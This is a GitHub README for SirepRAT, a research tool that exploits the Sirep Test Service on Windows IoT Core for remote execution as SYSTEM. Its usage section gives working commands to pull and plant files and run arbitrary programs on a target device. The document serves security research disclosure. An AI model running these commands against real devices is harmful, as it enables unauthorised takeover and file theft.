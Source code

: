# SirepRAT - RCE as SYSTEM on Windows IoT Core
**SirepRAT** Features full RAT capabilities without the need of writing a real RAT malware on target.

## Context

The method is exploiting the Sirep Test Service that’s built in and running on the official images offered at Microsoft’s site. This service is the client part of the HLK setup one may build in order to perform driver/hardware tests on the IoT device. It serves the Sirep/WPCon/TShell protocol.

We broke down the Sirep/WPCon protocol and demonstrated how this protocol exposes a remote command interface for attackers, that include RAT abilities such as get/put arbitrary files on arbitrary locations and obtain system information.

Based on the findings we have extracted from this research about the service and protocol, we built a simple python tool that allows exploiting them using the different supported commands. We called it SirepRAT.

It features an easy and intuitive user interface for sending commands to a Windows IoT Core target. It works on any cable-connected device running Windows IoT Core with an official Microsoft image.


## Slides and White Paper

Slides and research White Paper are [**in the docs folder**](https://github.com/SafeBreach-Labs/SirepRAT/tree/master/docs)


## Usage
Prereq's to make this work properly with Kali Linux as of 9/10/20. Install will be problematic under python3. Use python2. 
```
sudo apt install python-pip

sudo pip install hexdump

sudo pip install enum34
```

#### Download File
```bash
python SirepRAT.py 192.168.3.17 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" --v
```

#### Upload File
```bash
python SirepRAT.py 192.168.3.17 PutFileOnDevice --remote_path "C:\Windows\System32\uploaded.txt" --data "Hello IoT world!"
```

#### Run Arbitrary Program
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"
```  
With arguments, impersonated as the currently logged on user:
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```  
(Try to run it without the _as_logged_on_user_ flag to demonstrate the SYSTEM execution capability)

#### Get System Information
```bash
python SirepRAT.py 192.168.3.17 GetSystemInformationFromDevice
```

#### Get File Information
```bash
python SirepRAT.py 192.168.3.17 GetFileInformationFromDevice --remote_path "C:\Windows\System32\ntoskrnl.exe"
```

#### See help for full details:
```bash
python SirepRAT.py --help
```

## Authors

**Dor Azouri** ([@bemikre](https://twitter.com/bemikre))

## License

[BSD 3](https://github.com/SafeBreach-Labs/AltFS/blob/master/LICENSE) - clause "New" or "Revised" License
